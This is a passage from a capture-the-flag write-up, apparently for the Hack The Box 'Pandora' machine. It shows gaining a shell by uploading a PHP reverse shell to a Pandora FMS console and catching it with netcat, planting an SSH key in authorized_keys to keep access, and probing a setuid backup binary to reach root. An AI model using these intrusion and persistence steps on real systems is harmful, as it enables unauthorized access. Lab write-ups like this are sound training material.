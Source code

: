 I first tried to upload an image I had in my Kali VM. The image was uploaded and was then available at http://127.0.0.1/pandora_console/images/mountains.jpg . I then uploaded php-reverse-shell.php, started a netcat listener and accessed the PHP file in my browser. 

```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.136.63 38486
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 12:28:10 up 17 min,  1 user,  load average: 0.07, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
daniel   pts/0    10.10.14.19      12:26    1:48   0.02s  0.02s -bash
uid=1000(matt) gid=1000(matt) groups=1000(matt)

$ whoami
matt

$ cat /home/matt/user.txt
REDACTED
```

I was connected as matt, and I had the first flag. 

## Getting root

Now I nedded to get root. But first I wanted to have a better shell. So I copied my public key to the server and reconnected with SSH.

```bash
$ cd /home/matt

$ mkdir .ssh

$ echo "ssh-rsa PUBLIC_KEY eric@kali" >> .ssh/authorized_keys


$ chmod 700 .ssh
$ chmod 600 .ssh/authorized_keys
```

Getting root was simple since I had already found the suid binary earlier. Having the suid bit set meant that when matt executed the binary file, it would run with the owner (root) privileges. So if I could use it start start a shell, it would be a root shell. 

```bash
matt@pandora:~$ ls -la /usr/bin/pandora_backup
-rwsr-x--- 1 root matt 16816 Dec  3 15:58 /usr/bin/pandora_backup

matt@pandora:~$ file /usr/bin/pandora_backup
/usr/bin/pandora_backup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7174c3b04737ad11254839c20c8dab66fce55af8, for GNU/Linux 3.2.0, not stripped

matt@pandora:~$ strings /usr/bin/pandora_backup

Command 'strings' not found, but can be installed with:

apt install binutils
Please ask your administrator.
```
